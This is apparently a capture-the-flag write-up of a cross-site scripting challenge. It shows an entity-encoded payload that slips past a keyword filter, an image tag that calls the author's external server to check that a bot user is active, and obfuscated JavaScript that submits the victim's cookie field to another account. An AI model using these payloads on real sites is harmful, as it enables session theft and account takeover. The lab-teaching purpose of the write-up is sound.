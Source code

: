 Seeing a message box and a few "Active" users, hints strongly towards Cross-Site Scripting. Testing a few generic XSS strings (`<script>alert('xss');</script>`) shows that the server is filtering a few things: `script`, `alert`, and `ip`. Our first task is to test that XSS is what we are looking for. Looking over previous XSS CTF challenges, I came across the following XSS string that successfully alerted for us:

```
<img/src="./"/onerror="&#0097;&#00108;&#00101;&#00114;&#00116;&#0040;&#0039;&#0088;&#0083;&#0083;&#0039;&#0041;">
```

![XSS 1](/houseccon-2015-august/pics/xss-1.png)


Our next task, is to test if our "Active" users are actually active. Sending a simple `<IMG>` tag to `ctaroot` trying to access an image on my AWS instance gives a successful request.

```
<IMG src="http://my.aws.instance/ctaroot.png"/>
```

```
# On AWS instance
$ python -m SimpleHTTPServer 80

65.128.52.100 - - [31/Aug/2015 19:15:13] "GET /ctaroot.png HTTP/1.1" 404 -
```

Awesome, so we do have "Active" users. As per typical XSS, let's try and steal the cookie for `ctaroot`. The idea being to submit an attacker generated form with the `ctaroot` cookie inside.

Below is the XSS payload:

```html
<img/src="./"onerror="BELOW JAVASCRIPT"/>
```

```javascript
// Create a new form and resubmit to 'send'
// the document.cookie of the current user
var/**/form/**/=/**/document.createElement('form');
form.setAttribute('method','post');
form.setAttribute('action','send');
var/**/hiddenField=document.createElement('input');
hiddenField.setAttribute('type','hidden');
hiddenField.setAttribute('name','to');
// 'value' is stripped by server
hiddenField.setAttribute(String.fromCharCode(118, 97, 108, 117, 101),'admin');
form.appendChild(hiddenField);
var/**/hiddenField=document.createElement('input');
hiddenField.setAttribute('type','hidden');
hiddenField.setAttribute('name','body');
// 'value' is stripped by server
// 'ip' is stripped by server
// hiddenField.setAttribute('value, document.cookie);
hiddenField.setAttribute(String.fromCharCode(118, 97, 108, 117, 101),document.getElementById(String.fromCharCode(105,112))[String.fromCharCode(118,97,108,117,101)]);

form.appendChild(hiddenField);
document.body.appendChild(form);
form.submit();
```
